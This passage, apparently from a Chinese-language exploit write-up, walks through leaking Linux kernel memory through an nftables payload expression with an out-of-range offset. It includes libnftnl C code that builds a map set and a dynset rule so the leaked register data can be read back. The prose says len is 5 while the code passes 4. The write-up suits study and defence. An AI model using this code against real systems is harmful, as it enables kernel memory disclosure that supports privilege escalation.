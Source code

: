 ```
    {
        perror("[-] create chain");
        exit(-1);
    }
...
```  
  
然后再设置payload的表达式触发漏洞，我们将offset设置为19，len设置为5  
```
rule_add_payload(r, NFT_PAYLOAD_LL_HEADER, 19, 4, NFT_REG32_00);
```  
  
可以看到我们成功将ethlen的值设置为了251的值，该值是远远超出了以太网帧头部的长度了。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Le2rsobGwCU6dF6FXU2yxhclzoaWofO4dwZac9ib2t1afdRawo11IH5TLhvSmSZW3YjQS0MKLXjHiaQ/640?wx_fmt=other "null")  
  
  
可以看到寄存器中的值中除了以太网帧头部的数据，还有一些额外的数据了。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Le2rsobGwCU6dF6FXU2yxhcvrZ867Ja7ZdHHvVg1KvCT7b3VCvtB8ibsrapZ2B4tw1tSwrUyOCllyg/640?wx_fmt=other "null")  
  
  
为了将这些数据打印出来，则需要利用nftables中自带的set（集合），集合实际是一组数据，例如我们需要过滤几个ip地址，就能将这些ip地址作为一个集合作为过滤的名单，而集合中有一种属性是map即以键值对的形式存储值，而这些值实际是可以通过寄存器进行添加的，那么我们就将上述寄存器的值添加到集合中使用nft list ruleset的命令就可以再屏幕中获取内核的信息了。创建集合的代码如下：  
```
//创建集合
struct nftnl_set* build_set(char* table_name, char* set_name, uint16_t family)
{
    struct nftnl_set *s = NULL;
    
    s = nftnl_set_alloc();
    
    if (s == NULL) {
        perror("OOM");
        exit(EXIT_FAILURE);
    }
    
    nftnl_set_set_str(s, NFTNL_SET_TABLE, table_name);
    nftnl_set_set_str(s, NFTNL_SET_NAME, set_name);
    nftnl_set_set_u32(s, NFTNL_SET_FAMILY, family);
    nftnl_set_set_u32(s, NFTNL_SET_KEY_LEN, 4);
    /* See nftables/include/datatype.h, where TYPE_INET_SERVICE is 13. We     * should place these datatypes in a public header so third party     * applications still work with nftables.     */
    nftnl_set_set_u32(s, NFTNL_SET_KEY_TYPE, NFT_DATA_VALUE); //以16进制的形式存储数据
    nftnl_set_set_u32(s, NFTNL_SET_DATA_LEN, 4);
    nftnl_set_set_u32(s, NFTNL_SET_DATA_TYPE, NFT_DATA_VALUE);//以16进制的形式存储数据
    nftnl_set_set_u32(s, NFTNL_SET_ID, 1);
    nftnl_set_set_u32(s, NFTNL_SET_FLAGS, NFT_SET_MAP);  //以map存储数据

    return s;
}
```  
  
在创建完集合后，往集合里面添加数据是通过表达式完成的，而动态的添加以及删除集合中的元素则是通过dynset表达式进行处理，添加表达式代码如下：  
```
void rule_add_dynset(struct nftnl_rule* r, char *set_name, uint32_t reg_key, uint32_t reg_data)
{
    struct nftnl_expr *expr = nftnl_expr_alloc("dynset");
    nftnl_expr_set_str(expr, NFTNL_EXPR_DYNSET_SET_NAME, set_name); //需要指定添加元素的集合名称
    nftnl_expr_set_u32(expr, NFTNL_EXPR_DYNSET_OP, NFT_DYNSET_OP_UPDATE); //指定操作为添加操作
    nftnl_expr_set_u32(expr, NFTNL_EXPR_DYNSET_SET_ID, 1);
    nftnl_expr_set_u32(expr, NFTNL_EXPR_DYNSET_SREG_KEY, reg_key); //键
    nftnl_expr_set_u32(expr, NFTNL_EXPR_DYNSET_SREG_DATA, reg_data);//值
    nftnl_rule_add_expr(r, expr);
}
```  
  